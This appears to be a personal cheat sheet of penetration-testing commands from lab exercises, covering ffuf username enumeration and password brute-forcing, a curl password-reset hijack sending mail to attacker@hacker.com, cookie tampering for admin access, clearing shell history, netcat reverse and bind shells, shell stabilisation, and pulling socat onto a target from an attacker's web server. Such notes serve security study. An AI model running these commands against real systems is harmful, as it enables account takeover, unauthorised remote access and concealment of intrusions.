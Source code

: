 # Upgrades

    sudo apt update -y && sudo apt upgrade -y


# Enumeration (subdomains)(username)(atthentication bypass)
# ffuf

    ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.22/customers/signup -mr "username already exists" -fs {size}


-w wordlists path

-u url ex https://google.com

-H host/header

-fs switch, which tells ffuf to ignore any results that are of the specified size.

-d argument specifies the data that we are going to send

-mr argument is the text on the page we are looking for to validate we've found a valid username.

-X method of request {POST,GET ,DELETE}

-fc argument to check for an HTTP status code other than 200.

= FUZZ //worldlists content

    ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.22/customers/login -fc 200

# Curl
    curl 'http://10.10.54.22/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
    curl 'http://10.10.54.22/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
    curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
    
# Nmap
    nmap -sV -sC -A http//ip/ -oN output.txt
    
    
# SSH
    ssh username@ip
# SU
    switch user: su - username 
    sudo su username
    
 ****SU**** **superuser**
# history
  
    history -d <line number>
    history -c
    
**-c** is for clearing all
**-d** line by line

# ftp(file transfer protocol)
    ftp ip
    get filename
    
# netcat

reverse shell ports(443,53,80)

the first syntax is for reverse shell

the seceond one is for bind shell

    nc -lvnp <port-number>
    nc <target-ip> <chosen-port>
    
-l is used to tell netcat that this will be a listener

-v is used to request a verbose output

-n tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.

-p indicates that the port specification will follow.

   **(---**making the shell stable**---)**
   
  **Technique 1: Python**

    python -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm
    stty raw -echo; fg
   
 fg is use to rerive that termial that we push in the background
 
 and Ctrl + Z push them in the background

![nc](https://user-images.githubusercontent.com/98187755/212935020-c11aea4e-611a-47df-9673-1fe87c8b4fe8.png)

**Technique 2: rlwrap**

    sudo apt install rlwrap
    rlwrap nc -lvnp <port>
    
This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use 

    stty raw -echo; fg 

to stabilise and re-enter the shell.

**Technique 3: Socat**

A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary 

    sudo python3 -m http.server 80
 then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget 

    wget <LOCAL-IP>/socat -O /tmp/socat
 For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed 
 
    Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
